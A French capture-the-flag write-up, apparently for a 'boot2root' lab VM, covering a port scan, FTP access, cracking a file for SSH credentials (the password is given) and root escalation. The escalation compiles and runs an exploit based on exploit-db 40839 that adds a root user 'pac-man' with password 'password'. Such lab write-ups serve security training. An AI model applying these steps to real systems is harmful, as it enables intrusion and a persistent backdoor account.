

# Writeup2

Nous avons utilisé docker et squashfs-tools pour extraire le file system depuis l'iso.<br>
`./setup.sh`<br>
`docker logs -f boot2root`

### Get open port

Pour récupérer l'ip de la machine il faut lancer le script `./ip_machine [VM_name]`.<br>
Grâce à nmap:  `nmap -p- $(./ip_machine [VM_name])` nous pouvons voir les ports ouverts:

- 21/tcp  open  ftp
- 22/tcp  open  ssh
- 80/tcp  open  http
- 143/tcp open  imap
- 443/tcp open  https
- 993/tcp open  imaps

### Connection FTP

Nous pouvons maintenant ce connecter en `ftp` avec ces identifiants.<br>
`ftp $(./ip_machine [VM_name])` et mettre les identifiants.<br>
Nous pouvons voir 2 fichiers `README` et `fun`.<br>

### Crack fun :D

Nous allons pouvoir récupérer le fichier `fun` : `get fun`.<br>
Lancer la commande `tar xf fun`.<br>
Maintenant nous pouvons lancer la commande `node crackFun ft_fun`.<br>

### Connection to SSH 

user: `laurie`<br>
mdp: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

### Obtention de droits sudo

Copier le fichier: `breach.c`.<br>
avec: `scp breach.c laurie@$(../../ip_machine boot2root):`<br><br>
Compiler avec la commande: `gcc -pthread breach.c -o breach -lcrypt`.<br>
lancer l'exécutable avec: `./breach`.<br><br>
Un user `pac-man` à été ajouté avec le mot de passe `password`.<br>
Il est accessible avec:<br>
`su pac-man`<br>
`password`<br><br>
Réalise sur la base de: `https://www.exploit-db.com/exploits/40839`

### WE ARE ROOT

```
# id
uid=0(pac-man) gid=0(root) groups=0(root)
```


